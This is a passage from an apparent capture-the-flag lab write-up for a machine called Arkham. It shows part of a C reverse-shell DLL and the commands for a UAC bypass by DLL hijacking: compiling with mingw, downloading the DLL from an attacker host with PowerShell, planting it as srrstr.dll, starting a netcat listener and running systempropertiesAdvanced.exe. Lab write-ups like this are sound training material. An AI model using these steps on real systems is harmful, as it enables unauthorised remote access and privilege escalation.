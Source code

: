```
        TCHAR cmd[] = TEXT("C:\\WINDOWS\\SYSTEM32\\CMD.EXE");
        CreateProcess(NULL, cmd, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);
        WaitForSingleObject(pi.hProcess, INFINITE);
        CloseHandle(pi.hProcess);
        CloseHandle(pi.hThread);
	    WSACleanup();
}
```

***rev_shell.h***

```
#pragma Once

void rev_shell();
```

***Compiling the DLL*** -

https://egre55.github.io/system-properties-uac-bypass/

https://www.secjuice.com/powershell-constrainted-language-mode-bypass-using-runspaces/

Firstly install mingw there are a bunch of version you want, no need them all. <mark>apt-get install mingw*</mark> my notes were pretty confusing. after it's compiled move it over to the python web server then drop it to disk with invoke web request. drop the file in <mark>c:\users\batman\appdata\local\microsoft\windowsapps\ </mark>. Then we'll run <mark>c:\windows\system32\systempropertiesAdvanced.exe </mark> or <mark>c:\windows\syswow64\systempropertiesAdvanced.exe</mark>

```
x86_64-w64-mingw32-gcc -shared -o death-piex86.dll dllmain.cpp revshell.cpp rev_shell.h -lws2_32
```

on arkham do the following

```
cd c:\users\batman\appdata\local\microsoft\windowsapps
powershell iwr 'http://10.10.14.2/death-piex86.dll' -outfile .\srrstr.dll
```

BE SURE TO SETUP A NETCAT LISTENER locally

```
nc -lcnp 9135 :P
```

```
c:\windows\syswow64\systempropertiesAdvanced.exe
```

You'll notice you are still batman when you run <mark>whoami</mark> you are in a elevated session the session has the permissions associated with <mark>systempropertiesadvanced.exe</mark> 


